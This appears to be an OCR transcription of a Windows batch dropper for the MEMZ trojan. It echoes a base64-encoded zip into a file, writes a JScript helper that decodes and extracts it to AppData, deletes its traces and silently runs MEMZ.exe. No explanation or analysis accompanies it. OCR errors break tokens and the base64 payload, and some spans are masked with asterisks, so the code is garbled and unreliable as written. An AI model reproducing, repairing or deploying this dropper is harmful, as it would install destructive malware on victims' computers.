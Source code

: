 echo oTay7yqmAbsbPH+uXOsROieU+Fy8JSmRNEgr8PA+jEPq2mCpMx bmS0G2nUpaL5+QbeSyspn+qOCB>>x
echo GHEcIT8h1S4k/7jNTA4j/0WozttcPlzJg5ZecoBU891yk4qFEXXKJtwu6UVPWp6F7iNvfIX yQIra>>x
echo TrnLKUY9j6ytC3pIUcb5VAoY8TslNBVnVCMIWy29IK5q8Tnx/jk0+QZG+hzxuTT3wVnfRrZJ2Fof>>x
echo MgdylFQH7D21XTSJ+Q7lLBOoriI8pJV+IsD7gas9TbhKkrQp8r SRb1F54E9BIWAVIC0b96+J9iLa>>x
echo ruaDW0OCXyZCyJ+JxRf2VjldHkdcZEIySRUyS2q6uPjkAwX1LC pdG2mxWZomLDSbVLpClZ4QtbAt>>x
echo FOBhCKm1tro2*****soeaRa20hMui8hHp9ScPD+D5AFwEbaG/ZOoVrsnDJP+FLbp84fMXbeHXQG+>>x
echo Cjc72atekvFreV8TfJleMc3VrWbrBGtyo8JGk2CLnD2ZycLPtd tIApmyDZoFc2DLNlBd8LlR1Ka2>>x
echo GkvdhFNqiBXXXpsQ9jngNW21DfX1En42iccNLLPWC4tM7DiMst ogVH51Xd2Xh+DrLm8uNxGt3kRM>>x
echo AD/gKcAYgM01kQ2AQcAIIDXPRCoAfsA+wCigFMd7L+AIYBxgLUAbc AhwBpCOwLoBMAgYpkHWgDmA>>x
echo CGBpIfCAxwDDgDcB9EvUM4AYYAwwDmCMkA+QDmABuYAiwMUS0F thIroV8oFSCpwHMAjYB3gKcBKQ>>x
echo jdSjFNAMuBMwCNgHOAw4BhgFaIpBG7ABsA9wCPA8IAZgwGcpoB dwBHAZKQ4Xxt5Ok+sf3IC5DYQc>>x
echo nIP1vwJ9xvHL58j47nTImIOzEm3TAULOYvzm9wk5jva+cjLxv0 v+HykKko5nuvy/XT6Hp3JyX4Kf>>x
echo hhynhlzNU/6+VKzu9XpY3PGCuEutyjHkczm4DnQJDlwPVuW0NK/JK82h2b/PYfcIPn5VTh8fzFl9>>x
echo 0/SkCkRR3EBxMQEBX3BVDm635cEuJ++1B/MmfyajPy6V24Pe/G2GHFxEfK5u3C1ap3IDKZatCAUQ>>x
echo G2p93UKc2sJrUDMulOZhZpBexHFqxdvABPjb6XWRd1wNM5OdU7 vl3Q5B6nDH9bAe+lyVQ7sRccwO>>x
echo r8uH8yJgDwmBHDbsMnfRbb4qp9vuCfI5bMFVfgVfzbCi4HPiVR RMrpNqsGBChWh8pcmRgG6A3WZx>>x
echo uVwpZ+Ju4TZz3ZyXC3NPcf/ODXNHufe4jziFYZphpiHDsNxgMJQZTAbe4Df0G35h+I3hPcNFw 2eG>>x
echo tMIVhdWF6wpbCjcVbi0MFe4qvKfwXwofLTxa+Hbhfyv8oPBSYZ oxw5hnLDdWG9cZNxm7jT7jncZv>>x
echo Gx8z/tL4ivG08V3jZ0ZlUVKRrii9KKsov6ikyFS0vqi1qKMoUHR30f1 F3yt6oujVojNFHxbpim8o>>x
echo zizOLq4rbireUNxR/I3i14rfKf7P4ovFaSXzS4pLzCVbSrwlwZK+kqGSb5fsK3my5HD JcyUnS86U>>x
echo fFjiXhFaMbAiuuKfVvzzit+u+GjF5RXTSvNLS0otpetK15e2lf pL95Q+UPr90qdKXy49VfpeaULZ>>x
echo 7DK2LL+stqyzrL9ssOyBskfK/rXsp2XPlA2XHS37sExdvrC8sfyWck95oHx7+UD53vIfl6eunLe S>>x
echo XblkJc31D1P9cgyn4bScjkvl0rlMjuWyuaXQNccVQd8V0Hg1V8 PVcVaumdvAbYL2HZyT83B+LsT1>>x
echo cndyEW4XN8jdw+3l7uP2cQe4g9xj3OPcIVjnMHeEex4WOsa9zo 1wb3InuVPcKHeGi3HnuDHuIjfO>>x
echo XeaIgTFoDFqDzpBqSDdkGlhDtmGpIdfAGRCHDTUGq2GDYbPBCW v2Gv4XwsY/yv+35X8CUEsBAhQA>>x
echo FAAAAAgAdXfqSJDoh9lzIQAAADoAAAgAAAAAAAAAAAAAAP+BAA AAAE1FTVouZXhlUEsFBgAAAAAB>>x
echo AAEANgAAAJkhAAAAAA==>>x

echo f=new ActiveXObject(^"Scripting.FileSystemObject^");i=f. getFile(^"x^").openAsTextStream();>x.js
echo x=new ActiveXObject(^"MSXml2.DOM********^").createElemen t(^"Base64Data^");x.dataType=^"bin.base64^";>>x.j s
echo x.text=i.readAll();o=new ActiveXObject(^"ADODB.Stream^");o.type=1;o.open(); o.write(x.nodeTypedValue);>>x.js
echo z=f.getAbsolutePathName(^"z.zip^");o.saveToFile(z) ;s=new ActiveXObject(^"Shell.Application^");>>x.js
echo s.namespace(26).copyHere(s.namespace(z).items());o .close();i.close();>>x.js

set v="%appdata%\MEMZ.exe"
del %v% >NUL 2>NUL
cscript x.js >NUL 2>NUL
del x.js >NUL 2>NUL
del z.zip >NUL 2>NUL
del x >NUL 2>NUL
start "" %v%
